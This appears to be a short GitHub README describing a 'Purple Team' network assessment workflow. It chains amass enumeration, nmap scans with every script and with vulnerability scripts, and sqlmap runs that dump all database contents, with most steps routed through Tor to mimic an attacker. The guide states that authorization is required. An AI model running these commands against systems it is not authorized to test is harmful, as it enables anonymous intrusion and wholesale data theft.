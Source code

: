 # Purple Team Process (Ver. 1.0):

This guide is for both Red Team and Blue Team, to perform an active and comprehensive scan of your entire network.

Pay attention, this is a real, non desructive attack so you must have the authorization to perform this analysis.

In amass scan, replace %target% with the domain
#### Network Analysis:
- amass enum -v -src -ip -brute -min-for-recursive 2 -d %target%

Take the result and extract IPs.
In nmap scans, replace %targets% with IPs

In sqlmap scans, replace "http://example.com" with the original URL.
Add "/*" without quotes at the end of URL.

If there is "/" at the end of URL, add only "*".

From this step, all scans will be performed through Tor network, to simulate a real Adversary.

If your network/security devices blocks the Tor network, repeat all tests without proxies options.

#### System Analysis:
- nmap -sV --host-timeout 1440m -Pn --script "*" %targets% --proxies SOCKS4://127.0.0.1:9050

#### Advanced System Analysis:
- nmap -sV --host-timeout 1440m -Pn --script vulners %targets% --proxies SOCKS4://127.0.0.1:9050

#### Transport Analysis:
- Perform a Qualys SSL Labs scan

#### Web Application Analysis:
- nmap -sV --host-timeout 1440m -Pn --script http-sql-injection %targets% --proxies SOCKS4://127.0.0.1:9050

#### Advanced Web Application Analysis:
- nmap -sV --host-timeout 1440m -Pn --script "http-*" %targets% --proxies SOCKS4://127.0.0.1:9050

#### Extreme Web Application Analysis (sqlmap - URLs from nmap results):
- sqlmap -u "http://example.com" --crawl=10 --level=5 --risk=3 -a --dump-all --batch --random-agent --tor

- sqlmap -u "http://example.com" --crawl=10 --level=5 --risk=3 -a --dump-all --batch --forms --random-agent --tor

Start both sqlmap scans to perform a double analysis (GET parameters + FORMS scan).
